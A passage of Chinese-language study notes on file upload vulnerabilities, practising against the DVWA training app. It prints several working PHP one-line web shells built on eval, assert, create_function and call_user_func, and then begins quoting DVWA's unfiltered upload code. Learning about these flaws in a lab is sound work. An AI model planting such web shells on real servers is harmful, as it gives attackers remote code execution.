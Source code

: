

## File Upload

### 原理：

对于上传的文件的类型/内容/权限等没有严格的过滤检查，使攻击者可以通过上传被包装的木马获取服务器的shell权限。

如何判断是否存在文件上传漏洞？如何判断文件上传是怎样实际找到漏洞和绕过方法的？

![](https://cdn.jsdelivr.net/gh/IssacL04/IHS@img/img/202404091544370.png)

### 核心：

什么是一句话木马？

在之前的HTTP请求头学习中知道有get和post两种提交方式。在提交数据的过程中，可以有get/post/cookie等方式，而一句话木马用$_get/post/cookie['']接收我们传递的数据，并把接受的数据传递给一句话木马中执行命令的函数。

比如：

```php
<?php eval(@$_POST['a']); ?>
```

其中eval就是执行命令的函数，而$_POST['a']是网站接收的数据。eval会把接收到的数据当成PHP代码执行，也就使得攻击者可以通过木马传递任意php语句。

一些其它的一句话木马：

```
<?php assert(@$_POST['a']); ?>
```

assert()：判断内含的表达式是否为真，若为真则以php代码执行，假则输出FALSE；

```
<?php 
$fun = create_function('',$_POST['a']);
$fun();
?>
```

套壳又套了一层函数

```
<?php
@call_user_func(assert,$_POST['a']);
?>
```

本质上还是套壳;call_user_func()：调用其他函数，第一个参数为被调用函数名，第二个参数是被调用的参数。

### 练习

#### DVWA low

源码中没有任何过滤，可以直接上传木马。

```php
<?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
```